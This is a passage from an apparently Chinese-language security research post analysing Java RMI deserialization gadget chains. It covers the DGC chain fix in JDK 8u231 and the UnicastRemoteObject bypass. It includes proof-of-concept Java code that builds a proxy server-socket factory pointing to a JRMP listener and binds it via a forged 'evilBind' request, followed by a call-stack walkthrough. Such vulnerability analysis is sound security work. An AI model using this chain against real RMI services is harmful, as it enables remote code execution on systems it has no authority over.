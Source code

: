 因此恶意对象被成功反序列化，导致命令执行。


### fix {#fix}

这条利用链在 `JDK 8u231` 进行了修复，在 DGCImpl_Stub#dirty 中先设置了输入流的过滤器，导致恶意类无法通过检测。

{{< figure src="/ox-hugo/2021-04-20_15-20-45_screenshot.png" >}}


## UnicastRemoteObject {#unicastremoteobject}

国外安全研究人员 `@An Trinhs` 发现了一条利用链，利用 UnicastRemoteObject 类可以进行反序列化攻击，而且在 `JDK 8u231` 依然有效。示例代码：

```java
Registry registry = LocateRegistry.getRegistry(3333);
ObjID id = new ObjID(new Random().nextInt());
TCPEndpoint te = new TCPEndpoint("127.0.0.1", 12333); // JRMPListener's port is 3333
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);

// jdk8u231
RMIServerSocketFactory rmiServerSocketFactory = (RMIServerSocketFactory) Proxy.newProxyInstance(
    RMIServerSocketFactory.class.getClassLoader(),
    new Class[] {RMIServerSocketFactory.class, Remote.class},
    obj);
Constructor<?> constructor = UnicastRemoteObject.class.getDeclaredConstructor(null);
constructor.setAccessible(true);
UnicastRemoteObject clz = (UnicastRemoteObject) constructor.newInstance(null);
Field ssf = UnicastRemoteObject.class.getDeclaredField("ssf");
ssf.setAccessible(true);
ssf.set(clz, rmiServerSocketFactory);
evilBind(registry, "User", clz);
```

最后一行的 evilBind 方法是为了修改某个参数而伪造 bind 的请求逻辑，代码会在后面给出。

那么我们先分析一下 UnicastRemoteObject 的反序列化过程，它重写的 readObject 方法如下：

```java
private void readObject(java.io.ObjectInputStream in) throws Exception
{
    in.defaultReadObject();
    reexport();
}
```

首先对输入流进行反序列化，完成当前对象属性的赋值，然后执行 reexport 方法。跟进该方法，当属性 ssf 不为 null 时，将它作为参数之一调用 exportObject 导出远程对象：

{{< figure src="/ox-hugo/2021-04-20_21-05-54_screenshot.png" >}}

跟进到 TCPEndpoint#listen，生成了一个 var1 变量并调用其 newServerSocket 方法，而这个 var1 实则是我们构造的动态代理对象。

{{< figure src="/ox-hugo/2021-04-20_21-25-06_screenshot.png" >}}

此时的调用栈如下：

```text
listen:335, TCPTransport (sun.rmi.transport.tcp)
exportObject:254, TCPTransport (sun.rmi.transport.tcp)
exportObject:411, TCPEndpoint (sun.rmi.transport.tcp)
exportObject:147, LiveRef (sun.rmi.transport)
exportObject:237, UnicastServerRef (sun.rmi.server)
exportObject:383, UnicastRemoteObject (java.rmi.server)
exportObject:346, UnicastRemoteObject (java.rmi.server)
reexport:268, UnicastRemoteObject (java.rmi.server)
readObject:235, UnicastRemoteObject (java.rmi.server)
...
```
